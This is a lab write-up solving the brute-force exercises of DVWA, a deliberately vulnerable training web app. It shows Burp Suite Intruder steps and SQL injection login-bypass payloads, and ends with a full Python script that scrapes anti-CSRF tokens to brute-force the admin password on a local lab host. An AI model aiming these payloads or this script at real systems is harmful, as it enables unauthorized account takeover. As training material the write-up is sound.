     
# Tasks-1 of DVMA

## DVWA Sulutions of Brute Force: 
  #### Brute Force 
  #### Low Security Level:
    *   View Source
    *   Find that, only 'Login' will be validated, isset(*) checks whether para* is set and return True/False.
    *   Without any defense of Brute Force, also without any Filter of 'username' and 'password'.
    
##### Method 1: Usage of Burpsuite for Brute Force 
	  * Steps:
		    * 1.1 open Burpsuite (Burpsuite is easy to get/download and install from web).
		    * 1.2 click Proxy, set Intercept off firstly, then click 'open browser' to load the webseite,
		    	   which need to be intercepted.
		    * 1.3 input arbitrary value to login, and Burpsuite will get the info about its.
		    * 1.4 'Ctrl+l' or chose 'Action' as 'Send it to Intruder'.
		    * 1.5 Add password as playload value.
		    * 1.6 Fill the playload set, and start attack.
		    * 1.7 Actually, you will find the response length of the correct password is different as others.
	    
##### Method 2: Sql Injection
	  * 2.1 
		-username：  admin ' or ' 1 ' = ' 1
		-password: (none)
	  * 2.2 
		-username: admin ' #   (#:annotation of rest request sentence.)
		-pass: (none)
            
#### Medium Security Level:
  * Different from Low Level, a new function is added.
  
	     * mysql_real_escape_string function, this function will transfer the special symbols, like " ' ", 
	       namely, this function can defence Sql Injection Attack.
	       Thus, the Sql Injection Attack in medium level unfeasible nowly.
	     * but the Brute Force with Burpsuit is still work in this level.
	       (same as low level, see the steps discription of low level)
            
#### Highl Security Level:
   * At high level, a function of generation of CSRF Token is added. 
   
           * namely, generateSessionToken(); // Generate Anti-CSRF token  
           * that means, the Request Url will contains a 'user_token' by sending to Server. And the Sever checks the recieved token firstly, if token is valid, then the Server 
             operates the Sql queries.
	     
* To achieve the goal at high security level, we need to write a phython script to brute force the password.
   
* Constuct request to server to get response

		req = urllib.request.Request(url=requrl,headers=header)
		
* Get ' user_token ' , we need to use BeautifulSoup package to read the reponse content, and parser the page to get 'token'
	  
		  soup = BeautifulSoup(the_page,"html.parser")
		  user_token = soup.find('input',{'name':'user_token'})['value']
	   
* Brute force the password by sending request to the server with following URL, which including the param 'user_token' additional

	   	 requrl = "http://192.168.178.34/vulnerabilities/brute/"+"?username=admin&password="+line.strip()+"&Login=Login&user_token="+user_token 
		
* Use the Brupsuite to intercept the whole runtime of python code, we need to set the ProxyHandler of those code, so that, the Proxy is same as Brupsuite's.
      
      	proxy_handler = urllib.request.ProxyHandler({'http': '127.0.0.1:8080'}) ; opener = urllib.request.build_opener(proxy_handler)
          
##### Complete Code is as following:

	from bs4 import BeautifulSoup
	import urllib.request


	proxy_handler = urllib.request.ProxyHandler({'http': '127.0.0.1:8080'})
	opener = urllib.request.build_opener(proxy_handler)


	header = {
		'Host': '192.168.178.34',
			'Cache-Control': 'max-age=0',
			'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.183 Safari/537.36',
			'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
			'Referer': 'http://192.168.178.34/vulnerabilities/brute/index.php',
			'Accept-Encoding': 'zip, deflate',
			'Accept-Language': 'zh-CN,zh;q=0.9',
			'Cookie': 'security=high; PHPSESSID=ra6hjmncufirj8n9qgioejm854'
			}

	requrl = "http://192.168.178.34/vulnerabilities/brute/"

	def get_token(requrl,header):
		req = urllib.request.Request(url=requrl,headers=header)
		response = opener.open(req)
		the_page = response.read()
		soup = BeautifulSoup(the_page,"html.parser")
		print(len(the_page),response.getcode())
		user_token = soup.find('input',{'name':'user_token'})['value']  #get the user_token
		#print(user_token)
		return user_token

	user_token = get_token(requrl,header)

	i=0

	for line in open('test'):
		requrl = "http://192.168.178.34/vulnerabilities/brute/"+"?username=admin&password="+line.strip()+"&Login=Login&user_token="+user_token
		i = i+1
		print(i,'admin',line.strip(),end=" ")
		user_token = get_token(requrl, header)
		if (i == 7):
			break
			
		# because 'test' is only including 7 passwords.
        
        

